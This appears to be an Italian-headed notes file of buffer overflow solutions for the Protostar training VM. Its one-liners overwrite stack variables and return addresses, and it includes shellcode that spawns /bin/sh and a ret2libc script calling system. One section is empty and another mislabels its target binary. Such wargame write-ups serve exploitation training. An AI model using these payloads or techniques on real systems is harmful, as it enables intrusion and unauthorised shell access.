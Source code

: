 
# Protostar

## Stack0 (SOVRASCRIVERE VARIABILE)

```bash
python -c "print('A' * 68)" | ./stack0
```

---

## Stack1 (MODIFICARE VALORE)

```bash
./stack1 $(python -c "print('A'*64+b'\x64\x63\x62\x61')")
```

---

## Stack3 (MODIFICA FLUSSO)

```bash
python -c "print('A'*64+b'\x24\x84\x04\x08')" | ./stack3
```

---

## Stack4 (MODIFICA RETURN)

```bash
python -c "print('A'*76+b'\xf4\x83\x04\x08')" | ./stack4
```

---

## Stack5 (NON VA)

```bash

```

---

## Stack6 (LEAK)

```bash
echo `python -c 'print("\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" + "\x90"*25 + "\xbf\x84\x04\x08")'` | /opt/protostar/bin/stack7
# oppure in a.py
import struct
padding = 'AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVV'
call_system = struct.pack("I", 0xb7ecffb0)
ret_of_system = 'AAAA'
bin_sh = struct.pack("I", 0xb7fb63bf)
print padding + call_system + ret_of_system + bin_sh
# poi 
(python /tmp/a.py; cat) | opt/protostar/bin/stack6
```
